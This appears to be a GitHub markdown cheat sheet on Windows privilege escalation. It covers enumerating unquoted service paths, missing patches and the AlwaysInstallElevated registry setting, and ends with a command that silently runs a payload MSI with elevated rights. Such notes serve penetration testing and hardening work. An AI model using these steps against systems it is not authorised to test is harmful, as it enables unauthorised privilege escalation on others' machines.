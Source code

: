 [Unquoted Service Paths](#unquoted-service-paths)  
[Missing Windows Patches](#missing-windows-patches)  
[AlwaysElevate](#alwayselevate)



## Unquoted Service Paths
```
 wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
 ```
##### Example
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe  
In order to run SomeExecutable.exe, the system will interpret this path as follows:  
1. C:\Program.exe
2. C:\Program Files\A.exe
3. C:\Program Files\A Subfolder\B.exe
4. C:\Program Files\A Subfolder\B Subfolder\C.exe
5. C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe  

If C:\Program.exe is not found, then C:\Program Files\A.exe would be executed. If C:\Program Files\A.exe is not found, then C:\Program Files\A Subfolder\B.exe would be executed and so on.  

*source: https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae
 
 
## Missing Windows Patches  
```
wmic qfe list
```

## AlwaysElevate

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
A value of 0x1 in both of these registry keys indicates a regular user is able to execute msi files with automatic elevated privileges.  

Generating a payload packaged in an msi file would be executed with elevated privileges on the target.

```
c:\msiexec /quiet /qn /i <payload.msi>
```


